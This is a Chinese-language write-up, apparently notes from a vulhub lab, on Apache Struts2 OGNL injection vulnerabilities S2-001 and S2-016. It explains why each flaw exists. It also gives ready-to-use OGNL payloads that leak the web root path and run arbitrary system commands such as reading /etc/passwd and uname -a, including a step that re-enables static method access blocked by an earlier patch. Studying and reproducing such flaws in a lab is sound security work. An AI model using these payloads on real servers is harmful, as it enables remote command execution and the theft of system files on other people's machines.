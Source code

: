 获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
#### 漏洞原理
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

- 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析;
- 然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行。

这个漏洞说了也是有趣，执行表达式了还回填给客户端。看来与表单数据验证部分的逻辑有密切关系。

S2-001是Struts2框架最刚开始出现的第一个漏洞，跟S2-045的执行过程也比较接近，都是经由`TextParseUtil.translateVariables` 执行OGNL表达式，TextParseUtil是文本处理的功能类。不同的是S2-001是在把jsp生成java类的时候，会对表单提交的参数调用`evaluateParams`从而调用文本处理类的OGNL求值功能。调用堆栈如下：

### s2-016

#### 漏洞原理
在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

#### 漏洞复现

在vulhub strut2 s2-016中，运行：
```
sudo docker-compose build
sudo docker-compose up -d

```
访问http://your-ip:8080

#### payload

`http://your-ip:8080/index.action?redirect:写入OGNL表达式即可执行`

##### payload1 获取内核信息 uname -a

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```
由于之前的补丁禁用了一些静态方法，所以payload:
- 首先`#context["xwork.MethodAccessor.denyMethodExecution"]=false`令上下文中denyMethodExecution为false；
- 然后`#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true)`,获取被禁用的方法，使静态方法可被访问；
- `#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream()`执行系统命令，获取内核信息;
- 剩下的把信息输出的响应。
